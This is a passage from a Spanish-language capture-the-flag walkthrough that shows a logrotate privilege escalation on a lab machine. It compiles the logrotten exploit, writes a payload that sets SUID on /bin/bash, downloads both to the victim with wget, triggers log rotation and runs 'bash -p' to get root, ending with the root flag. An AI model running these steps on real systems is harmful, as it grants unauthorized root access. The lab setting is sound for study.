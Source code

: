 Es un script en c que tenemos que compilar 
```
gcc logrotten.c -o logrotten
```

Creamos un payload al que llamaremos payloadfile y será el siguiente. 

```bash
#!/bin/bash

chmod u+s /bin/bash
```

Lo que haces otorgar permisos suid a la bash.

Ahora tenemos que hacer lo mismo que con pspy64, pasar estos 2 ficheros a la máquina víctima, para ello volvemos a levantar el server en python en nuestra máquina y los descargamos en la víctima con wget. 

Le damos a logrotten permisos de ejecución y ejecutamos el script de la siguiente manera. 

```
./logrotten -p ./payloadfile /home/reader/backups/access.log
```
Tenemos que hacer referencia al fichero de log en este caso "access.log" donde vamos a estar a la escucha de la modificación que se realice, una vez esto suceda, la bash tendrá permisos de suid. 

Ejecutamos el script y pasa esto. 

```
Waiting for rotating /home/reader/backups/access.log...
```
Tenemos que modificar el archivo log, para ello abrimos otro terminal y modificamos el fichero, por ejemplo así. 

```
echo pwned > access.log
```

Una vez hecho esto en el script saldrá esto.

```
Waiting 1 seconds before writing payload...
Done!
```
y esto quiere decir que la bash ya tiene permisos suid, solo queda ejecutar la bash con privilegios de la siguiente manera. 

```
reader@book:/dev/shm$ bash -p
bash-4.4# whoami
root
```
Ya somos ROOT!! 
**FLAG ROOT**

```
2fe89617e3370240222b09d6310c80ea
```

